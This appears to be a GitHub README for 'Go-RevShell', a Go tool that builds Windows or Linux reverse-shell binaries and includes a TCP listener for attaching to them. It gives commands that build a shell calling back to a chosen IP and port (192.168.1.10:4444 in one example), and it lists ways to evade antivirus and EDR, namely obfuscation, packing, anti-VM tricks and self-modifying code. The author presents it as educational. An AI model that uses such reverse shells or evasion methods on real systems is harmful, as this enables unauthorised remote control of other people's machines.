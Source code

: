 ![Go-RevShell-Banner](img/Go-RevShell-Banner.jpeg)

Go-RevShell
=======

Pure standard Golang implementation of a reverse-shell generator and a netcat like tcp listener to attach the shell without any other piece of code. Made by a student for educational purposes only.

## Why
As an infosec student, I had to bypass some EDR and antivirus solutions (see the "Go further" section). So I needed this kind of software which I could not find easily on the web, so I built this.

## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
```

### Build a reverse shell

* Build a shell for linux server : ```go run main.go -s linux```
* Build a shell for windows server : ```go run main.go -s windows```
* Build a shell for windows server to be attached on 192.1.1.10:4444 :

```go run main.go -i 192.168.1.10 -p 4444 -s windows```

### Attach to reverse shell

* Listen on port 1111 ```go run main.go -l 1111```

## Screenshots

![Go-RevShell-Generate](img/Go-RevShell-Generate.png)
![Go-RevShell-Attach](img/Go-RevShell-Attach.png)

## Go further
Some ideas to go further using this tool :
- Avoid signatures (build your own unique reverse-shell code)
- Obfuscate your reverse-shell code
- Pack your reverse-shell executable (ie. https://github.com/EgeBalci/amber)
- Add anti-vm tricks to your reverse-shell code
- Self-modifying reverse-shell code
- ...

## Todo List

* Publish package

**[`^        back to top        ^`](#)**
